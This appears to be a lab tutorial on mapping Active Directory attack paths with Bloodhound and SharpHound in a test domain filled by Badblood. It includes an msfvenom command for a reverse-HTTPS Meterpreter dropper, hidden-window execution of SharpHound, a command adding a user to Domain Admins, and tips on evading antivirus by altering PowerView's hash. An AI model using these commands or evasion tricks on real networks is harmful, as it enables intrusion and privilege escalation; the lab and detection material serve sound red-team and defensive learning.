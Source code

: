 # Bloodhound
### What is it?
Bloodhound describes their product as using graph theory to reveal hidden and unintended links between users and groups that makes lateral movement easier for attackers. Naturally this is fantastic for defenders as well since you can view these paths and preemptively close them off or create alerting around when they're traversed.

### Setting up an AD environment with Badblood
First things first, I do not have a thousand person company with which to test active directory relationships. I also don't want to spend hours upon hours creating this by hand. Thankfully, someone else also didn't want to do this and so automated it! Enter Badblood. This is a Powershell script that can be used to fill an AD environment with randomness. Thousands of users and groups and relations with which to test and play around with. This can be downloaded from [their Github page](https://github.com/davidprowe/BadBlood), and running it is as simple as launching an admin Powershell window, navigating to the folder, setting the execution policy to unrestricted with ```set-executionpolicy unrestricted```, and then launching it with ```.\Invoke-badblood.ps1```.

![Upgraded AD](/assets/img/bloodhound/upgraded-ad-badblood.png)

Now this is an AD environment!

### Running Bloodhound
For this example, we'll be running Bloodhound from our Kali machine, emulating the attacker. The first step is to install neo4j through ```sudo apt install neo4j``` - this is needed as it is our graph database management system. Start it with ```sudo neo4j start``` and after waiting a minute, browse to ```http:localhost:7474``` and login with the username and password neo4j/neo4j. Set a new password here to whatever you want, and we're now ready to install Bloodhound. Just like before, we'll install this with ```sudo apt install bloodhound``` and start it with ```sudo bloodhound```. You should see the Bloodhound screen popup with similar to this.

![Bloodhound](/assets/img/bloodhound/bloodhound-login.png)

This is great and all, but our database is empty. There are no complicated AD relationships to untangle. So let's change that. We could just generate random data for a DB with a provided Python script, or we could practice taking that data from a DC.

### Enter SharpHound
Sharphound is a .NET executable that, when run, uses LDAP to collect information on all OU's, computers, accounts, and groups, as well as the links between them. This can uncover a lot of otherwise impossible to discover links between groups and users. We can run SharpHound from our C2 in order to generate some data for BloodHound. For this, we will be running Sharphound from a Metasploit console just for ease of reproduction - it's free and everyone has a copy! First, we'll use msfvenom in order to generate the staged dropper.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.50 lport=443 -f exe > dropper.exe
```
Then, we'll host a listener through Metasploit with the ```multi/handler```.
![Meterpreter](/assets/img/bloodhound/meterpreter-listener.png)

Once started, we're ready for the staged dropper to connect back and start our session. Upload Sharphound to the victim through ```upload SharpHound.exe``` and run it with ```execute -f SharpHound.exe```. This will start a new process and pop a very obvious shell window on the victim machine that shows Sharphound executing.
![SharpHound](/assets/img/bloodhound/running-sharpHound.png)
This can be hidden by first dropping into a shell with ```shell``` and then running SharpHound through ```PowerShell.exe -WindowStyle hidden C:\Users\matt\Downloads\SharpHound.exe```. Finally, grab the output from Sharphound which is a zip file with ```download <filename>```.

### What info is gleaned?
Drag and drop this zip into Bloodhound and we're ready. Upon first examination of the data in Bloodhound, it's a huge mess.
![A mess](/assets/img/bloodhound/bloodhound-getting-admin.png)
However, within this, we can identify some interesting lateral movement paths that bring us to domain admin.
![Path to DA](/assets/img/bloodhound/bloodhound-path-to-da.png)
If we then focus in on one path only, we can see that there exists a number of group chains that connects the unprivileged account of Roger Lowery to Ellen Hale.
![Example path](/assets/img/bloodhound/bloodhound-path-to-da-longest-path.png)
Let's see how this looks in AD to get an idea of the path that Bloodhound has identified.
![AD Comparison](/assets/img/bloodhound/ad-comparison.png)
This is odd. We can see the group memberships flowing from Roger up through LA-CAS-DISTLIST1 but where is this link to KA-COC-ADMINGROUP1 coming from? The answer is the AD permission GenericAll. GenericAll grants the group full permission over the object, much like Domain Admin.

![EA](/assets/img/bloodhound/effective-access.png)

They have all permissions possible. This is outlined in the security tab of the AD object as an extra set of permissions that are granted. And not only does this group we're looking at have GenericAll permissions to another group, that next group has GenericAll permissions to the Domain Admin Ellen Hale, giving us our attack path. This is what makes Bloodhound stand out, finding things like these obscure permission settings that are not immediately obvious.

Helpfully, Bloodhound gives us the commands that we need to run in order to abuse this group relationship. You can see these by right-clicking the attack path and selecting help, then going to the "Abuse Info" tab.
![Abuse Info](/assets/img/bloodhound/bloodhound-help.png)

### Opsec considerations

SharpHound is designed to blend in with normal AD traffic, but there are certain key details you can hunt for. Event ID 5156 is generated en masse in the security logs when SharpHound starts, querying LDAP.

![AD](/assets/img/bloodhound/ad-event-5156.png)

Another thing to consider is the commands that are suggested in the attack path. They are the "easiest" ways to perform the privilege escalation, but they are also *noisy* and that attracts attention. Bloodhound recommends importing PowerView to the endpoint in order to perform a lot of privilege escalation and, while this will create less alerts compared to just running ```net group "Domain Admins" userName /add /domain```, PowerView gets detected very quickly. This can be mitigated to a degree by changing the hash, reducing the amount of engines statically detecting it. But there's still a high risk at run time that the commands will raise flags.

![VT](/assets/img/bloodhound/powersploit-updated-hash.png)
